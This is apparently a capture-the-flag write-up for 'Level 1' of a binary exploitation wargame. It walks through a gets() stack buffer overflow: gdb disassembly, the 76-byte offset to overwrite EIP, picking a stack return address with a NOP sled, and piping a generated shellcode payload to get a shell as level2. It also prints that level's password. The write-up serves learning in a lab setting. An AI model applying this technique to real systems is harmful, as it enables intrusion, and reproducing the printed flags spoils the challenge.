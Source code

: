 ## Level 1

level1:1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

All this program does is get the user input using 'gets'.
```
(gdb) disas main
   ...
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
```
We were able to overflow the buffer used by gets, and overrite the instruction pointer register
(eip) which holds the address of the next executed instruction.
```
(gdb) r < <(python -c 'print("A"*76+"BBBB")')
...
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
After knowing the offset to overrite eip, we could try to execute a shellcode.
But first we needed to find the address to put in eip. For that we sat a breakpoint before
the function returns, and ran the program
```
(gdb) b *main + 21
(gdb) r < <(python -c 'print("A"*76+"BBBB"+"C"*64)')
```
After examining the stack, we found that the addresses we could use start at 0xbffff740
```
(gdb) x/40x $esp
0xbffff6e0:	0xbffff6f0	0x0000002f	0xbffff73c	0xb7fd0ff4
...
0xbffff720:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff730:	0x41414141	0x41414141	0x41414141	0x42424242
0xbffff740:	0x43434343	0x43434343	0x43434343	0x43434343
...
```
We did not put our shellcode right after the eip, but added a bunch of nop instructions just
incase there was a difference in the offset with gdb.

nop stands for no operation, which basically does nothing, when the program finds a nop
it will go to the next instruction

Now that we had everything we needed, we created shellcode.py to generate the payload.

We had to modify EIP to get it to work outside gdb, because we got this exception
```
$ python /tmp/shellcode.py | ./level1
Floating point exception (core dumped)
```

After finding the right address 0xbffff770, we were able to get a shell as level2
```
$ python /tmp/shellcode.py | ./level1 
$ whoami
level2
$ cd /home/user/level2
$ cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
